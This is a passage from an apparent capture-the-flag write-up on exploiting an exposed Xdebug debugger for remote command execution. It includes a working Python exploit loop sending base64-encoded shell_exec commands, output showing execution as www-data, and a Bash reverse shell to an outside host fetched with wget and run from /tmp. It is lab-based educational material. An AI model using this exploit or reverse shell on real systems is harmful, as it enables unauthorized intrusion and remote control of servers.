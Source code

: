     while  True:
        cmd = input ('>> ')
        cmdstr = f'shell_exec("{cmd}");'.encode('ascii')
        conn.sendall(b'eval -i 1 -- ' + base64.b64encode(cmdstr) + b'\x00')
        resp = conn.recv(1024)
        try:
            encoded_res = res_re.search(resp.decode()).group(1)
            print(base64.b64decode(encoded_res.encode()).decode().strip())
        except AttributeError:
            pass  
    

I started with some scripts I found on GitHub (like
[this](https://github.com/nqxcode/xdebug-exploit)), but added in the decode of
the response.

It works nicely:

    
    
    oxdf@parrot$ python xdebug.py 
    >> id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    >> pwd
    /var/www/html
    >> ls
    info.php
    vpn
    

#### Shell

Really, I just need to create a reverse shell, so in theory, writing that
Python script is unnecessary. Still, getting a reverse shell was a bit tricky.
My go-to reverse shell with Bash didn’t seem to work over the Xdebug run, and
`nc` isn’t on the box. Eventually, I found that `wget` was:

    
    
    >> which wget
    /usr/bin/wget
    

I’ll write a simple reverse shell script, `rev.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/172.30.0.9/443 0>&1
    

With a Python webserver started, I’ll get the shell, and then run it:

    
    
    >> wget 172.30.0.9/rev.sh -O /tmp/.0xdf
    >> bash /tmp/.0xdf
    

There’s a hit at the webserver:
